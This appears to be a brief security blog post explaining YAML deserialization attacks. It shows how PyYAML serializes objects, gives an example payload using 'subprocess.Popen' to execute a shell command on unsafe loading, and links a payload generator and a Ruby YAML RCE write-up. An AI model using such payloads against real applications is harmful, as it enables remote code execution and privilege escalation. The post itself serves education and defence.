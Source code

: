 ```yaml
---
layout: post
title: "YAML deserialization attack"
date: 2023-09-20 09:01:22 -0400
categories: [Misc]
---
```


Some YAML libraries are capable of serializing actual commands instead of just raw data. Which can be utilized to achieve RCE or PrivEsc.

Try running the following script in Python

```python
import yaml

print(yaml.dump(range(1,10)))
```

You can see that the range method itself is serialized. To exploit this, you simply need to craft a nice YAML payload.
Which can conveniently be done using: https://github.com/j0lt-github/python-deserialization-attack-payload-generator
Example Python payload:

```yaml
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - chmod
  - +x
  - /bin/bash
```

Ruby also have a similar vulnerability

https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/
